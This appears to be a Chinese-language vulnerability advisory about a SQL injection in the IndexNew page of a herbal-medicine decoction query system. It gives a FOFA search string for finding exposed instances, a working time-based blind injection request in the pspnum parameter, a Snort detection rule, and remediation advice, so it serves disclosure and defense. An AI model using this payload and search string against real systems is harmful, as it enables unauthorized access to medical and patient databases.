

# 中药煎药查询系统IndexNew存在SQL注入漏洞

中药煎药查询系统IndexNew存在SQL注入漏洞

# 影响版本

当下所有版本

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**  title="中药煎药查询"

**POC/EXP：**

**step1 延时注入**

```
GET /PreDetail/IndexNew?pspnum=1';WAITFOR%20DELAY%20'0:0:5'-- HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/152.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9


```

​​

**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"中药煎药查询系统 - /PreDetail/IndexNew pspnum SQL注入 (WAITFOR DELAY)";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/PreDetail/IndexNew";
        fast_pattern;
        content:"pspnum=";
        content:"WAITFOR"; nocase; distance:0; within:50;
        content:"DELAY"; nocase; distance:0; within:20;
        content:"0:0:5"; distance:0; within:20;
    metadata:
        service http,
        affected_product "中药煎药查询系统",
        vulnerability_type "SQL Injection (Time-based blind)",
        severity "high";
    classtype:web-application-attack;
    sid:1000727;
    rev:1;
    priority:1;
)
```

# 漏洞修复

* **官方修复**：联系系统开发商获取安全补丁，或对系统进行升级。
* **代码修复**：

  * 使用**参数化查询（PreparedStatement）**  替代字符串拼接。
  * 对 `pspnum`​ 参数进行严格的**输入验证**，仅允许数字或特定格式。
  * 实施**最小权限原则**，限制数据库账户权限。

‍
